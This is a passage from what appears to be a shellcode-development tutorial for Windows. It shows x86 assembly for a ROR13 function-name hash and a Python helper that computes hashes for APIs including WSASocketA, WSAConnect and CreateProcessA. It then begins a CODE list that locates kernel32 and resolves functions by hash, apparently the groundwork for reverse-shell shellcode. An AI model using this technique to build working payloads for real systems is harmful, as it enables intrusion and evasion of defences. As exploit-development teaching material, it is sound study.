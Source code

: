 ```py
"compute_hash:                             " 
  "   xor eax, eax                        ;"  #   EAX = 0
  "   cdq                                 ;"  #   EDX = 0
  "   cld                                 ;"  #   Clear direction flag (DF)

  "compute_hash_again:                     "
  "   lodsb                               ;"  #   Load the next byte from esi into al
  "   test al, al                         ;"  #   Check for NULL terminator
  "   jz compute_hash_finished            ;"  #   If the ZF is set, we've hit the NULL terminator
  "   ror edx, 0x0d                       ;"  #   Rotate edx 13 bits to the right
  "   add edx, eax                        ;"  #   Add the new byte to the accumulator
  "   jmp compute_hash_again              ;"  #   Next iteration

  "compute_hash_finished:                  "
```

We can write a simple Python script that performs the same operation so that we will be able to compute the hash of a function name that our shellcode will search for:

```py
def ror_str(byte, count):
  binb = numpy.base_repr(byte, 2).zfill(32)
  while count > 0:
    binb = binb[-1] + binb[0:-1]
    count -= 1
  return (int(binb, 2))

def push_function_hash(function_name):
    edx = 0x00
    count = 0
    
    for eax in function_name:
        edx = edx + ord(eax)
        if count < len(function_name)-1:
            edx = ror_str(edx, 0xd)
        count += 1
    
    return ("push " + hex(edx))

push_terminateprocess_hash = push_function_hash("TerminateProcess")
push_loadlibrarya_hash = push_function_hash("LoadLibraryA")
push_createprocessa_hash = push_function_hash("CreateProcessA")
push_wsastartup_hash = push_function_hash("WSAStartup")
push_wsasocketa_hash = push_function_hash("WSASocketA")
push_wsaconnect_hash = push_function_hash("WSAConnect")
```

We need to introduce an additional function that will compare the hash from EDX with the one generated by our Python script.

Besides, we are going to modify the "CODE" variable to be able to include python functions.

```py
CODE = [
        "start:                                  ",
        "   mov ebp, esp                        ;",
        "   sub esp, 0x200                      ;",
        "   call find_kernel32                  ;",
        push_terminateprocess_hash,
        "   call find_function                  ;",
        "   xor ecx, ecx                        ;",  #   ECX = 0
        "   push ecx                            ;",  #   uExitCode
        "   push 0xffffffff                     ;",  #   hProcess
        "   call eax                            ;",  #   Call TerminateProcess

        "find_kernel32:                          ",
```